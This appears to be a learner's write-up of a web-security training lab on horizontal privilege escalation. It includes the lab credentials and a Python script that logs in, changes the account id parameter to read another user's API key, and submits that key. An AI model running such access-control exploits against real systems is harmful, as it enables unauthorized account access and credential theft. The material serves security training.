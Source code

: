 This lab has a horizontal privilege escalation vulnerability on the user account page.

To solve the lab, obtain the API key for the user `carlos` and submit it as the solution.

You can log in to your own account using the following credentials: `wiener:peter`

---

Goal: obtain api key for carlos

My account page has a vulnerable id parameter allowing me to change user by simply changing: `/my-account?id=wiener` to `/my-account?id=carlos`

script details

POST /login
- User data
GET /my-account?id=carlos
- grab with soup: `Your API Key is: ZcDIi1RVndT5rEntdTV9nCsmKRnd05mA`
POST /submitSolution
- Data: `answer=ZcDIi1RVndT5rEntdTV9nCsmKRnd05mA`

This took a while but i got it done. The exploit fully completes the lab without any user input needed, apart from the initial command to start the program:

```php
./<Name_of_the_program> https://<www.example.com>
```

```python
#!/usr/bin/python3

import sys
import requests
import urllib3
from bs4 import BeautifulSoup
import re

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

# Get csrf token
def get_csrf(s, clean_url):
	print('[+] Tring to get csrf.')
	login_url = clean_url + '/login'
	r = s.get(login_url, verify=False, proxies=proxies)
	soup = BeautifulSoup(r.text, 'html.parser')
	csrf = soup.find("input")['value']
	return csrf
	

# Login to wiener user account
def login_user(s, clean_url):
	csrf = get_csrf(s, clean_url)
	print('[+] Logging into user account.')
	data = {'csrf': csrf, 'username': 'wiener', 'password': 'peter'}
	login_url = clean_url + '/login'
	r = s.post(login_url, data=data, verify=False, proxies=proxies)
	if 'Log out' in r.text:
		print('Success!')
		post_api_key(s, clean_url)
	else:
		print('Login failed...')
		sys.exit(-2)

# Exploit access control to get carlos's api key  (add if else functionality)
def obtain_api(s, clean_url):
	print('[+] Trying to get api for user carlos')
	vuln_path = clean_url + '/my-account?id=carlos'
	r = s.get(vuln_path, verify=False, proxies=proxies)
	#soup = BeautifulSoup(r.text, 'html.parser')
	res = r.text
	api_key = re.search("Your API Key is:(.*)", res).group(1)
	clean_api_key = api_key.split('</div>')[0]
	clean_api_key = clean_api_key.strip()
	return clean_api_key
	
	
# Post API Key and complete the lab
def post_api_key(s, clean_url):
	solution_url = clean_url + '/submitSolution'
	api = obtain_api(s, clean_url)
	data = {'answer': api}
	r = s.post(solution_url, data=data, verify=False, proxies=proxies)
	
	
# Print user instructions
def main():
	if len(sys.argv) != 2:
		print('[+] Usage: %s <URL>' % sys.argv[0])
		print('[+] Example: %s www.example.com' % sys.argv[0])
		sys.exit(-1)
	
	url = sys.argv[1]
	clean_url = url.rstrip("/")
	s = requests.Session()
	login_user(s, clean_url)

if __name__ == '__main__':
	main()
```

- I don't think i ended up using soup, but needed re instead. Look up info about re module as it will be useful at a later stage.
